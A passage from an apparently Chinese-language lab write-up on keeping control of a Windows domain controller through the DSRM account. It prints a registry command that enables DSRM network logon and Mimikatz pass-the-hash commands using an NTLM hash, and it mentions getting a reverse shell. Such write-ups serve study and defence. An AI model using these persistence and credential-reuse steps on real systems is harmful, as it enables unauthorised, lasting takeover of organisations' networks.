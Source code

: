 ```powershell
New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```

然后，我们就可以利用ptt进行远程登陆啦！

根据前面获取到的krbtgt的ntlm值进行登录：

![截图](ee1604d5380abdbe2ddae800a90711e8.png)

使用mimikatz（但是需要管理员权限）也可以直接用前面的psexec.py这个脚本！

```shell
privilege::debug
sekurlsa::pth /domain:owa2010cn-god /user:administrator /ntlm:b097d7ed97495408e1537f706c357fc5
```

![截图](f32e5e18ae4254dc741b2318ace5fe34.png)

直接反弹一个shell！！

> 技术总结：
利用系统自带机制模式DSRM，修改DSRM默认登录方式和属性，通过其同步krgtgt进行PTH攻击，实现持续化控制，但适用于系统=>windows server2008。每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。
>{: .prompt-tip}